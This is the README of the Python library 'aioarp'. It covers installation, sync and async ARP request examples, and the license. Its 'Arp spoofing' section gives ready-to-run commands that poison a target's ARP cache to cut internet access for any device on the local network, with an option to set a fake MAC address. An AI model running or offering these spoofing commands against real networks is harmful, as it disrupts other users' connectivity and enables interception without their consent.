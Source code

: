 # aioarp

[![PyPI - Version](https://img.shields.io/pypi/v/aioarp.svg)](https://pypi.org/project/aioarp)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/aioarp.svg)](https://pypi.org/project/aioarp)
[![coverage](https://img.shields.io/codecov/c/github/karosis88/aioarp/master)](https://app.codecov.io/gh/karosis88/aioarp)
![license](https://img.shields.io/github/license/karosis88/aioarp)

-----

**Table of Contents**

- [Installation](#installation)
- [Documentation](#documentation)
- [ARP Spoofing] (#arp-spoofing)
- [ARP requests](#how-to-send-arp-requests)
- [License](#license)

## Installation

```console
pip install aioarp
```

## Documentation
[Click here](https://karosis88.github.io/aioarp/)

## Arp spoofing

Using this command, you can disable internet access for any device on your local network.

```shell
$ aioarp disable 192.168.0.81 192.168.0.1 enp0s3 --seconds 10
```

or 

```shell
$ aioarp spoof 192.168.0.81 192.168.0.1 11:11:11:11:11:11  enp0s3 --seconds 10
```

`spoof` can be used to specify the fake mac address.

Where...
- `192.168.0.81` is a target IP address for which we are blocking internet access.
- `192.168.0.1` is a gateway for our target IP address.
- `enp0s3` is an optional interface used to send ARP requests. if not specified, the default interface is used.
- `seconds` is an option that specifies how long we want to disable internet access for the target IP address.

## How to send ARP requests

### Sync
```py
import aioarp
response = aioarp.request('10.0.2.2', 'enp0s3')
print(response.sender_mac)
# ee:xx:aa:mm:pp:le mac address
```

### Async [trio or asyncio]
```py
import trio
import aioarp
response = trio.run(aioarp.arequest, '10.0.2.2', 'enp0s3')
```

```py
import asyncio
import aioarp
response = asyncio.run(aioarp.arequest('10.0.2.2', 'enp0s3'))
```

Or without specifying an interface parameter

```
response = aioarp.request('10.0.2.2')
```

## License

`aioarp` is distributed under the terms of the [MIT](https://spdx.org/licenses/MIT.html) license.

